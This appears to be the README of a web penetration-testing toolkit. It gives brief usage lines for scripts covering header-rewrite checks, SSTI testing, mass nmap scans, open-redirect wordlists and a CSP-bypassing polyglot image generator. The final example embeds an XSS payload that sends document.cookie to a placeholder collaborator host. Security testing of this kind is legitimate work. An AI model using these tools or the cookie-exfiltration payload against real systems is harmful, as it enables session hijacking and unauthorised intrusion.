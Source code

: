 ## :small_red_triangle_down:crimson_rewriter

> Check if the `X-Rewrite-Url` or `X-Original-Url` header is supported

### Usage example:
```bash
python crimson_rewriter.py -w wordlist_with_urls.txt -H "custom=header" -c "Cookie: a=1;"
```

## :small_red_triangle_down:crimson_templator

> Test for SSTI injection with `7777` reflection based technique and `500` internal error based technique.

### Usage example:
```bash
python crimson_templator.py -w urls.txt -c "Cookie: auth1=qwe; auth2=asd;" -H "asd=1" -H "qwe=2"
```

## :small_red_triangle_down:crimson_mass_nmap

> For scanning a large number of IP:PORT services list.

### Usage example (all.txt
```bash
# you need "all.txt" file in your working directory
python crimson_mass_nmap
```

## :small_red_triangle_down:crimson_faker

> Template for generating fake data for API testing.

## :small_red_triangle_down:crimson_redirector

> Generate a wordlist for Open Redirection testing.

### Usage example:
```bash
crimson_redirectOR.py whitelisted.com afine.com 123.123.123.123 redirect_uri
```


## :small_red_triangle_down:pol_jpg_js_gif_gen.py

> Script for generating a JPG_JS | GIF_JS files for bypassing the CSP using the technique described [here](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs).

> Script is modified version of the original one located [here](https://github.com/s-3ntinel/imgjs_polygloter).

### Usage example:
```
python3 pol_jpg_js_gif_gen.py jpg -H 250 -W 250 -p 'document.location.href="http://domain_collab?"+document.cookie;' -o a.jpg
```
